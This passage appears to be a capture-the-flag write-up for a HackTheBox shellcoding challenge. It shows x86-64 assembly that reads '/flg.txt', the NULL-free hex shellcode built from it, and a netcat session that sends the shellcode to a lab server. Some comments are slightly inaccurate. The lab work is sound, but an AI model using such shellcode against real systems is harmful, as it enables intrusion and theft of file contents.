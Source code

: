 As expected, we're exceeding 50 bytes and the shellcode contains NULL bytes (each <r>00</r> represents a null byte that needs to be removed).

Here's the list of changes made to respect the requirements:
- Line 1: replace `push 0` by `xor rsi, rsi` followed by `push rsi`. This will still push 0 to the stack and will replace `mov rsi, 0` from line 13.
- Line 11: `mov al, 2` to use the 1-byte register instead of the 8-byte <b>rax</b>.
- Line 18: replace `mov rdi, rax` by `mov edi, eax' to use 4-byte size registers.
- Line 19: replace `mov rax, 0` by `xor al, al` to set the Syscall number to 0.
- Line 21: replace `mov rdx, 24` by `mov dl, 24` to use a 2-byte register, per needed.
- Line 24-25: replace `mov rax, 1` and `mov rdi, 1` by `mov al, 1` and `mov dil, 1` to use 1-byte registers.
- Line 26: remove `mov rdx, 24` since the value is alredy set previously.

This is the final code:
```nasm
global _start

section .text
_start:
    ; push './flg.txt\x00'
    xor rsi, rsi            ; set rsi to 0
    push rsi                ; push NULL string terminator
    mov rdi, '/flg.txt'     ; set the file name
    push rdi                ; push file name to stack
    
    ; open('rsp', 'O_RDONLY')
    ; rsi '0_RDONLY' is already set to 0 from previous instructions
    mov al, 2               ; open syscall number
    mov rdi, rsp            ; move pointer to filename
    syscall                 

    ; read file
    lea rsi, [rdi]          ; pointer to opened file
    mov edi, eax            ; set fd to rax from open syscall
    xor al, al              ; read syscall number
    mov dl, 24              ; size to read
    syscall

    ; write output
    mov al, 1               ; write syscall
    mov dil, 1              ; set fd to stdout
    syscall
```
{: .nolineno }

If I generate the shellcode and check for null bytes this is the result :
```shell
python shellcoder.py flag
4831f65648bf2f666c672e74787457b0024889e70f05488d3789c730c0b2180f05b00140b7010f05
40 bytes - No NULL bytes
```

Finally, if I send the shellcode to the server the flag is returned :
```shell
$ nc 94.237.63.201 58840
4831f65648bf2f666c672e74787457b0024889e70f05488d3789c730c0b2180f05b00140b7010f05
HTB{5h3llc0d1ng_g3n1u5}
```
